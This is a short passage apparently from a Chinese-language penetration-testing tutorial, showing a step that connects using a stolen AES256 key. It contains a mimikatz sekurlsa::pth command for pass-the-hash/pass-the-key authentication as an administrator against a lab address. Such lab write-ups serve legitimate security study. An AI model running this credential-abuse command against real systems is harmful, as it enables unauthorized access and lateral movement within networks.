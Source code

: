 ![image-20230711090249231](assets/QmeCvGNDEAVozki.png)

### 3.2.3. 尝试连接

这里其实还是一样的采用只是加密方式不同，连接的方式都是一样的。

```
mimikatz sekurlsa::pth /user:administrator /domain:192.168.20.10 /aes256:225fb70cc0516e5ad0eb7a6755e8796c02d0110f83e9478f07b266cfb58ca565
```

![image-20230711092358300](assets/9OR2vGoyT1jsV8Z.png)
